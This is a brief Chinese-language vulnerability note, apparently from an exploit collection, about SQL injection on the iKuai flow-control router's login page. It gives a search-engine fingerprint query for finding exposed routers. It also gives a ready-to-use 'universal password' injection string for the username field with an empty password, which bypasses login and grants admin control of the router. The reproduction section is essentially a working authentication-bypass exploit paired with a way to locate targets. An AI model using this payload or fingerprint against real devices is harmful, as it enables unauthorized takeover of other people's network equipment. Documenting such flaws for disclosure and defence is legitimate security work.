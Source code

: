 # 

# iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

```
iKuai 流控路由
```

## 网络测绘

```
title="登录爱快流控路由"
```

## 漏洞复现

登录页面如下

![](./images/202202140931704.png)

使用万能密码登录后台

```plain
user: "or""=""or""="
pass: 空
```

![](./images/202202140931830.png)
